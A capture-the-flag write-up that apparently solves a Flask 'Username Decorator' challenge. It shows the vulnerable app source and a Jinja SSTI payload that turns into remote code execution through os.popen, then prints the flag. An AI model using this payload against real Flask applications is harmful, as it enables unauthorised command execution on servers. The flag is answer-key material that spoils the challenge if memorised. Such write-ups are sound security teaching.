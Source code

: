 # Username Decorator
> My favorite social media platform, Prorope, has overhauled their username system and now supports prefixes and suffixes! Isn't that so cool?

> For one, I know that I would really love to be the !! JW !!, so I made a website to preview these username changes.

> Note: the flag is in an environment variable called FLAG

## About the Challenge
We were given a source code that contain 2 python code, here is the content of `app.py` file

```python
from flask import Flask, render_template_string, request
import re

app = Flask(__name__)
app.config['FLAG_LOCATION'] = 'os.getenv("FLAG")'

def validate_username(username):
  return bool(re.fullmatch("[a-zA-Z0-9._\[\]\(\)\-=,]{2,}", username))

@app.route('/', methods=['GET', 'POST'])
def index():
    prefix = ''
    username = ''
    suffix = ''
    
    if request.method == 'POST':
      prefix = (request.form['prefix'] or '')[:2]
      username = request.form['username'] or ''
      suffix = (request.form['suffix'] or '')[:2]
      if not validate_username(username): username = 'Invalid Username'
	
    template = '<!DOCTYPE html><html><body>\
    <form action="" method="post">\
      Prefix: <input name="prefix"> <br>\
      Username: <input name="username"> <br>\
      Suffix: <input name="suffix"> <br> \
      <input type="submit" value="Preview!">\
    </form><h2>%s %s %s</h2></body></html>' % (prefix, username, suffix)
    return render_template_string(template)

@app.route('/flag')
def get_flag():
  return 'Nein'
  import os
  return eval(app.config['FLAG_LOCATION'])
```

And here is the preview of the website

![preview](images/preview.png)

## How to Solve?
The website is vulnerable to SSTI (Server Side Template Injection). To exploit the website we need to input `{{` in the `Prefix` form and `}}` in the `Suffix` form. For example im gonna check using `{{config}}` to see if the website is vulnerable to SSTI or not

![testing](images/testing.png)

So, to escalate the impact of SSTI, im using this payload to do Remote Code Execution

```
url_for.__globals__.os.__dict__.popen(request.args.file).read()
```

And then add new parameter called `file` in the request that contain unix command

![flag](images/flag.png)

```
ctf{j4st_us3_pr0p3r_t3mp14t1ng_4lr34dy}
```